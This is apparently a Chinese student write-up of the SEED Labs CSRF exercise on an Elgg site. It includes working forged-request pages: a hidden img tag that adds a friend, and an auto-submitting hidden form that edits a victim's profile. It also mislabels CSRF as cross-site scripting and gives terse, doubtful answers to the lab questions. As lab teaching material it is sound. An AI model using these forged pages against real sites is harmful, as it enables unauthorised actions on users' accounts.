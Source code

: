 # CSRF原理

跨站脚本攻击

原理

- 同站请求
  - 一个来自example.com的网页向example.com发送请求
- 跨站请求
  - evil.com向example.com发送请求

**假设受害者访问了evil.com，该网页中嵌入了js代码，进行了跨站请求，浏览器在请求发起时附加所有属于example.com的cookies，那么就会造成跨站脚本攻击**

一个get请求示例

```
<html>
    <body>
        <h1>This page forges an HTTP GET request.</h1>

        <img src="http://www.csrflabelgg.com/action/friends/add?friend=59" 
            alt="image" width="1" height="1" />
    </body>
</html>
```

`src`属性指定一个URL `http://www.csrflabelgg.com/action/friends/add?friend=59`，它似乎是带有`friend`参数的HTTP GET请求的URL。如果用户访问了这个页面并且已经登陆到csrflabelgg.com网站，则该 GET 请求会向该网站发送`friend=59`参数的请求

防御：可以在header中增加csrf_token

# lab setup

下载lab文件

```shell
curl -q https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip -o Labsetup.zip
```

解压

```shell
unzip Labsetup.zip
```

运行容器

```
dcbuild #docker-compose构建镜像
dcup #运行容器
```

修改hosts文件增加dns映射

```
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```


# Task 1: Observing HTTP Request

由于我们需要伪造 HTTP 请求，因此需要观察合法的http请求是什么样子，因此可以使用HTTP Header Live给Get/Post请求抓包

# Task 2: CSRF Attack using GET Request

> `__elgg_ts`和`__elgg_token`是保护机制，为了简化实验难度，需要被禁用

更改网页源码即可，代码位于容器中`/var/www/addfriend.html`

```javascript
<html>
    <body>
        <h1>This page forges an HTTP GET request.</h1>

        <img src="http://www.csrflabelgg.com/action/friends/add?friend=59" //修改
            alt="image" width="1" height="1" />
    </body>
</html>
```

以Alice的身份登录Elgg，然后点击http://www.attacker32.com/addfriend.html/ ，发现好友已经被添加

# Task 3: CSRF Attack using POST Request

点击edit profile，然后抓包看这个行为导致了什么样的post请求

- acesslevel的值2将字段的访问级别设置为 public，否则其他人无法看到此字段
- guid是用户的身份id，Alice是56

更改容器中`/var/www/editprofile.html`的代码

```javascript
<html>
    <body>
        <h1>This page forges an HTTP POST request</h1>
        <script type="text/javascript">
            function forge_post(){
                var fields;

                fields = "<input type='hidden' name='name' value='Alice'>";
                fields += "<input type='hidden' name='description' value='SAMY is MY HERO'>";
                fields += "<input type='hidden' name='accesslevel[description] value='2'>";
                fields += "<input type='hidden' name='guid' value='56'>";
 
                var p = document.createElement("form");
                p.action = "http://www.seed-server.com/action/profile/edit";
                p.innerHTML = fields;
                p.method = "post";
                document.body.appendChild(p);
                p.submit();
            }

            window.onload = function() {
                forge_post();
            }
        </script>
    </body>
</html>
```

Question 1: The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets
Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know
Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe
how Boby can solve this problem.

- f12

Question 2: If Boby would like to launch the attack to anybody who visits his malicious web page.
In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF

- 不能


# Task 4: Enabling Elgg’s Countermeasure

elgg防止csrf攻击的安全措施：

- 在页面中放置一个秘密令牌（token），通过检查令牌是否出现在请求中，它们可以判断请求是同一站点请求还是跨站点请求
- elgg在HTTP请求中加入了`__elgg_t`和`__elgg_token`参数，分别是timestamp（时间戳）和【站点秘密值(从数据库检索)、时间戳、用户会话 ID 和随机生成的会话字符串的哈希值】，服务器会验证这两个是否正确
- valid函数验证token和时间戳，seed在这个函数的开头添加了一个返回值从而禁用了验证
- 如果要启用验证只需删除return语句

```java
public function validate(Request $request) {
    return; // Added for SEED Labs (disabling the CSRF countermeasure)
    $token = $request->getParam(’__elgg_token’);
    $ts = $request->getParam(’__elgg_ts’);
    ... (code omitted) ...
}
```

# Task 5: Experimenting with the SameSite Cookie Method

Cookie 的SameSite属性有三个选择:

- Strict
- Lax
- None

值为Strict，则不会跨站请求使用

导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求，GET 表单。详见下表。

| 请求类型  | 示例                                 | 正常情况    | Lax         |
| --------- | ------------------------------------ | ----------- | ----------- |
| 链接      | `<a href="..."></a>`                 | 发送 Cookie | 发送 Cookie |
| 预加载    | `<link rel="prerender" href="..."/>` | 发送 Cookie | 发送 Cookie |
| GET 表单  | `<form method="GET" action="...">`   | 发送 Cookie | 发送 Cookie |
| POST 表单 | `<form method="POST" action="...">`  | 发送 Cookie | 不发送      |
| iframe    | `<iframe src="..."></iframe>`        | 发送 Cookie | 不发送      |
| AJAX      | ` $.get("...") `                     | 发送 Cookie | 不发送      |
| Image     | `<img src="...">`                    | 发送 Cookie | 不发送      |